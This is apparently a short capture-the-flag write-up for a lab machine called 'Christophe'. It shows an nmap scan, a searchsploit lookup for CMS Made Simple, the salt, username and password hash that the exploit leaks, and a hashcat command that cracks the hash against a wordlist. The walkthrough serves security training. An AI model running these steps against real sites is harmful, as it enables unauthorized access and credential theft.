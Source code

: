 # SP: Christophe (V1.0.2)

![image](https://user-images.githubusercontent.com/5285547/125982486-dc67b351-b5df-4e28-9973-9de19ff391fe.png)

## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


## CMS Made Simple
![image](https://user-images.githubusercontent.com/5285547/125982400-47f6763c-774a-4277-b48f-ca0770546ab8.png)

```
searchsploit "cms made simple"
```

![image](https://user-images.githubusercontent.com/5285547/125983683-849c0a35-68be-4a6d-a5d2-66a5aadd3b38.png)


Copy the exploit and run it with python and the variables it needs. 

```
[+] Salt for password found: 932129a6bd8545bd
[+] Username found: christophe
[+] Email found: christophe@christophe.local
[+] Password found: 7908b1494f82ed320b288a0e839bfbc5
```

Crack the password

```
hashcat -O -a 0 -m 20 7908b1494f82ed320b288a0e839bfbc5:932129a6bd8545bd /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
```

